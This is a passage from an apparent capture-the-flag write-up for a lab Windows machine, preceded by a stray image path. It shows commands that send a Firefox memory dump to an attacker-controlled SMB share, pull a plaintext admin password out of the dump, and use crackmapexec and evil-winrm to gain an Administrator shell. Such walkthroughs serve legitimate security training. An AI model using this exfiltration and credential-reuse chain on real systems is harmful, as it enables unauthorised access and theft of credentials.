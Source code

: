 ```console
*Evil-WinRM* PS C:\Users\Chase\Desktop> net use n: \\10.10.14.4\share /user:test pass
*Evil-WinRM* PS C:\Users\Chase\Desktop> Out-File \\10.10.14.4\share\firefox-1.dmp
```

Grepping the files for `password` we found the following line:

```console
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ
```

We can try login with this credentials:

```console
$ crackmapexec winrm 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
SMB         10.10.10.149    5985   NONE             [*] None (name:10.10.10.149) (domain:None)
HTTP        10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [+] None\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)

$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
